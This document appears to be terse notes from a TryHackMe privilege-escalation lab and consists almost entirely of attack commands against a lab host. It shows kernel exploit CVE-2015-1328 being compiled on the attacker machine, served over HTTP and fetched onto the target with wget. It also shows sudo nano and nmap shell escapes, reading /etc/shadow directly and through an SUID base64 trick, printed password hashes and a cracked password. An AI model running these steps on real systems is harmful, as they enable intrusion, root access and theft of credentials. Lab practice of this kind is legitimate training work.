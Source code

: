 ssh karen@10.10.171.207

hostname
wade7363

cat /proc/version
3.13.0-24-generic

cat /etc/issue
Ubuntu 14.04 LTS

python --version
Python 2.7.6

https://www.exploit-db.com/exploits/37292
CVE-2015-1328

gcc 37292.c -o ofc

sudo python3 -m http.server --bind 10.18.6.119 8080
cd tmp
wget http://10.18.6.119:8080/ofc

chmod +x ofc
ls -la

find / -type f -name '*flag2*.txt' 2>/dev/null
cat /home/matt/flag1.txt
THM-28392872729920

https://gtfobins.github.io/gtfobins/nano/#sudo
sudo nano
^R^X
reset; sh 1>&0 2>&0
id

find / -type f -name '*flag2*.txt' 2>/dev/null
cat /home/ubuntu/flag2.txt
THM-402028394

sudo nmap -interactive

cat /etc/shadow

$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1

cat /etc/passwd

gerryconway

find / -type f -perm -04000 -ls 2>/dev/null

LFILE=/etc/shadow

/usr/bin/base64 "$LFILE" | base64 --decode

$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/

Password1

find / -type f -name '*flag3*.txt' 2>/dev/null

LFILE=/home/ubuntu/flag3.txt

/usr/bin/base64 "$LFILE" | base64 --decode

THM-3847834
